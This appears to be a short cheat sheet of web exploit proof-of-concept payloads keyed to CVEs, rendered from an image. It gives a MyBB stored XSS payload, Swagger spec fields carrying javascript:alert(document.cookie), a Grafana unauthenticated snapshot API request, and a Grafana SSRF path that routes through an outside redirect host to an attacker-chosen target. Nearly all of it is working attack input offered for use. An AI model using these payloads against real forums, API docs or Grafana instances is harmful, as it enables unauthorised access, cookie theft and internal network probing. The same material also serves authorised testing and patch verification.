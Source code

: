 #MyBB:

**(CVE-2021-27889)** MyBB forum stored XSS POC: ``[img]http://xyzsomething.com/image?)http://x.com/onerror=alert(1);//[/img]``

#Wordpress:

**(CVE-2021-24175)** WP plugin Elementor Page Builder:
https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

#Swagger:

**(CVE-unknown)** XSS old versions (file.json content):

``swagger: "2.0",
info: 
  title: "Swagger Sample App",
  description: "Please to click Terms of service"
  termsOfService: "javascript:alert(document.cookie)"
  contact: 
    name: "API Support",
    url: "javascript:alert(document.cookie)",
    email: "javascript:alert(document.cookie)"
  version: "1.0.1"``

#Grafana:

**(CVE-2019-15043) Unauthenticated API access:**

``POST /api/snapshots``
``{"dashboard": {"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}``

**(CVE-2020-13379) SSRF:**

``/avatar/test%3fd%3dredirect.rhynorater.com%25253f%253b%252fbp.blogspot.com%252fYOURHOSTHERE``
